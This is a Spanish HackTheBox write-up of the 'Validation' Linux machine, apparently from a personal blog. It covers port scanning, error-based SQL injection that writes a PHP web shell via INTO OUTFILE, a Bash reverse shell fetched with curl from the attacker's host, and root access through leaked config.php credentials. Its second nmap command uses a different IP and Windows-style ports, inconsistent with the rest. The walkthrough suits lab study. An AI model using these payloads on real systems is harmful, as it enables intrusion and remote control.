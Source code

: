 ```yaml
---
title: Validation | Linux
published: 2025-02-24
image: "./logo.png"
tags: [Easy, Linux, SQLi, RCE, Information Leakage, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- SQLI (Error Based)  
- SQLI -> RCE (INTO OUTFILE)  
- Information Leakage

### Preparación

- eJPT  
- eWPT

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.116 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.11.116`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false

```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49688,49693,49715 10.10.11.174 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.11.174`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false

```

Al ver que tenemos un puerto **http** abierto vamos a hacer un reconocimiento de las tecnologías web que usa con **whatweb**.

```
http://10.10.11.116 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```

Vemos que usa `PHP` principalmente junto con **Apache**. Nada más entrar a la web podemos ver un pequeño formulario de registro con 2 campos.

![Formulario](./1.png)

## Explotación

El campo del **usuario** no es vulnerable a **SQL Injection**, pero podemos interceptar la petición con **Burpsuite** y ver si el campo del "_País_" es vulnerable.

![SQL Injection](./2.png)

Bingo! Como podemos ver con una sola **'**, vemos que da un error, por lo cual es vulnerable. Vamos a intentar subir una **web shell** básica para **PHP**.

```
<?php system($_GET['cmd']); ?>
```

Así quedaría la inyección en la solicitud.

```
username=sqli&country=Brazil' union all select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wshell.php" -- -
```


![CMD Injection](./3.png)

Perfecto, hemos conseguido la web shell funcional, por lo que vamos a intentar obtener una persistencia. Usaremos esta **Bash TCP reverse shell**.

```
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Y luego la pasaremos al servidor mediante un servidor local con **python**.

```
python -m http.server 80
```

Después en la **URL** pondremos lo siguiente para obtener la **shell**.

```
<URL>?cmd=curl+<IP>:80/revshell.sh > revshell.sh
```

Una vez subido, para comprobar que todo ha ido bien, si ejecutamos un **ls** deberíamos poder ver la **revshell.sh.**&#x20;

Para ejecutarla nos pondremos en escucha primero por el puerto que hayamos escogido con **netcat**.

```
nc -lvnp <PORT>
```

Simplemente la ejecutamos en el servidor.

```
bash revshell.sh
```

Si todo ha ido bien, deberíamos tener la reverse shell.

![Reverse Shell](./4.png)

Estando dentro podemos ver que hay un archivo **config.php**, así que veremos su contenido, puede ser importante.

![config.php](./5.png)

Gracias al comando:

```
cat /etc/passwd | grep "bash"
```

Podemos ver que solo existe el usuario **root**, que si probamos con la contraseña del **config.php** parecerá que se queda estancado, pero realmente ya hemos accedido al usuario y tenemos root. Ya solo queda obtener ambas flags del directorio /home/\<usuario>/user.txt y /root/root.txt.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/382)

---